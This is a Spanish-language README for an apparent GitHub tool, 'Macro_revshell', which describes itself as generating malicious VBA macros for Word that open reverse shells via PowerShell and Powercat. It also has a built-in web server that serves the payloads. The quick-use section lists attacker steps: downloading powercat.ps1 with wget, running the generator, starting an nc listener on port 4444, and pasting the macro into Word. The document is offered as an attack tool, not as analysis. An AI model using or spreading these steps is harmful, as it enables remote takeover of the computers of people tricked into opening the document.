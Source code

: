 # Macro_revshell

> Herramienta de automatización para generación de macros VBA con reverse shell

## 📋 Descripción

**Macro_revshell** genera macros VBA maliciosas que establecen reverse shells mediante PowerShell y Powercat. Incluye servidor web integrado para servir payloads.

## 🚀 Características

- 🔄 Generación automática de macros con reverse shell
- 🌐 Servidor web integrado 
- 🔐 Codificación Base64 UTF-16LE
- 🎯 Detección automática de IP
- 📊 División inteligente de payloads

## 🛠️ Uso Rápido

```bash
# 1. Preparar powercat.ps1 en el directorio
wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

# 2. Ejecutar script
python macro_revshell.py

# 3. Iniciar listener (en otra terminal)
nc -lvnp 4444

# 4. Copiar macro generada en Word
